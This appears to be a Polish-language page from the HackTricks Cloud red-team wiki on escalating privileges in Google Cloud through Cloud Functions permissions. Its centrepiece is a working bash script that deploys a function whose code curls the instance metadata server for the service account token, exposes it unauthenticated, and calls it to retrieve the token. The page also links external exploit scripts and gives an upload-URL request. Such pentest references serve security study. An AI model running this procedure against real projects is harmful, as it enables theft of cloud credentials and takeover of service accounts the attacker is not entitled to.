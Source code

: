 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Więcej informacji o Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Atakujący z tymi uprawnieniami może **utworzyć nową Cloud Function z dowolnym (złośliwym) kodem i przypisać jej konto usługi**. Następnie, wyciek tokena konta usługi z metadanych pozwala na eskalację uprawnień do niego.\
Możliwe, że będą wymagane pewne uprawnienia do wywołania funkcji.

Skrypty exploitacyjne dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) i [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), a gotowy plik .zip można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Atakujący z tymi uprawnieniami może **zmodyfikować kod funkcji, a nawet zmienić przypisane konto usługi** w celu wyeksfiltrowania tokena.

{% hint style="danger" %}
Aby wdrożyć funkcje chmurowe, będziesz również potrzebować uprawnień actAs dla domyślnego konta usługi obliczeniowej lub dla konta usługi używanego do budowy obrazu.
{% endhint %}

Niektóre dodatkowe uprawnienia, takie jak uprawnienie `.call` dla wersji 1 cloudfunctions lub rola `role/run.invoker` do wywołania funkcji mogą być wymagane.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Jeśli otrzymasz błąd `Permission 'run.services.setIamPolicy' denied on resource...`, to dlatego, że używasz parametru `--allow-unauthenticated` i nie masz wystarczających uprawnień do tego.
{% endhint %}

Skrypt exploitujący dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Dzięki temu uprawnieniu możesz uzyskać **podpisany URL, aby móc przesłać plik do koszyka funkcji (ale kod funkcji nie zostanie zmieniony, nadal musisz go zaktualizować)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie jestem pewien, jak przydatne jest tylko to uprawnienie z perspektywy atakującego, ale dobrze wiedzieć.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

Daj sobie dowolne z wcześniejszych **`.update`** lub **`.create`** uprawnień, aby eskalować.

### `cloudfunctions.functions.update`

Mając tylko uprawnienia **`cloudfunctions`**, bez **`iam.serviceAccounts.actAs`**, **nie będziesz w stanie zaktualizować funkcji, WIĘC TO NIE JEST WAŻNA ESCALACJA.**

### Uprawnienia do zapisu w koszyku

Możesz pomyśleć, że atakujący z **uprawnieniami do zapisu w koszyku**, w którym przechowywany jest kod Cloud Functions, będzie mógł **zmodyfikować kod, nadpisując** `function_code.zip`, a następnie sprawić, że funkcja **wykona dowolny** kod.

{% hint style="success" %}
**Jednak to nieprawda, po prostu nadpisanie kodu w koszyku nie zmodyfikuje kodu, który jest wykonywany.**
{% endhint %}

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
